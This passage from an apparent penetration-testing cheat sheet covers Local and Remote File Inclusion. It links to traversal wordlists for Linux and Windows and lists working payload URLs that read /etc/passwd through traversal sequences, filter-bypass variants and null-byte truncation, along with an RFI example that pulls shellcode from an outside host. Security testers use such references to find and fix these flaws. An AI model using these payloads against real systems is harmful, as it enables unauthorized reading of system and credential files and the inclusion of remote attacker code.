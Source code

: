 **TODO**

A list that uses several techniques to find the file /etc/password \(to check if the vulnerability exists\) can be found [here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt)

### **Windows**

Using theses lists and deleting repetitions I have created a new one:

* [https://raw.githubusercontent.com/soffensive/windowsblindread/master/windows-files.txt](https://raw.githubusercontent.com/soffensive/windowsblindread/master/windows-files.txt)
* [https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)
* [https://github.com/soffensive/windowsblindread/blob/master/windows-files.txt](https://github.com/soffensive/windowsblindread/blob/master/windows-files.txt)
* [http://awesomehackers.org/2018/05/11/path-traversal-cheat-sheet/](http://awesomehackers.org/2018/05/11/path-traversal-cheat-sheet/)

Try also to change `/` for `\`  
Try also to remove `C:/` and add `../../../../../`

A list that uses several techniques to find the file /boot.ini \(to check if the vulnerability exists\) can be found [here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt)

### **OS X**

Check the LFI list of linux.

## Basic LFI and bypasses

All the examples are for Local File Inclusion but could be applied to Remote File Inclusion also \(page=[http://myserver.com/phpshellcode.txt\](http://myserver.com/phpshellcode.txt\)\).

```text
http://example.com/index.php?page=../../../etc/passwd
```

### traversal sequences stripped non-recursively

```python
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

### **Null byte \(%00\)**

Bypass the append more chars at the end of the provided string \(bypass of: $\_GET\['param'\]."php"\)

```text
http://example.com/index.php?page=../../../etc/passwd%00
```
